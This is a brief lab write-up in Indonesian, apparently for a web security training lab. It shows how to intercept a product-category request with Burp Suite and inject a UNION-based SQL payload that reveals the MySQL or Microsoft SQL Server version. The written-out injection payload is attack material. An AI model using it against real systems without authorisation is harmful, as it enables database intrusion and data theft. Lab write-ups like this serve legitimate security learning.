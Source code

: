 ##  Write-up: SQL injection attack, querying DB version on MySQL & Microsoft

### Langkah-langkah:

1. Buka lab dan pilih salah satu kategori produk.
2. Aktifkan **Burp Suite** → intercept request kategori.
   Contoh:

   ```
   GET /filter?category=Corporate HTTP/2
   ```
3. Modifikasi parameter `category` dengan payload SQL Injection:

   ```
   ' UNION SELECT @@version,NULL--+
   ```
<img width="1200" height="179" alt="Screenshot 2025-09-11 090431" src="https://github.com/user-attachments/assets/20facc9a-6ecf-42e7-920c-68fbaa0c7912" />

4. Kirim request. Halaman akan menampilkan **string versi database** (contoh: `8.0.36 MySQL Community Server`).

 Lab berhasil diselesaikan.


<img width="1904" height="725" alt="Screenshot 2025-09-11 090457" src="https://github.com/user-attachments/assets/92f1f28c-0248-4081-a865-b501d0cecaee" />
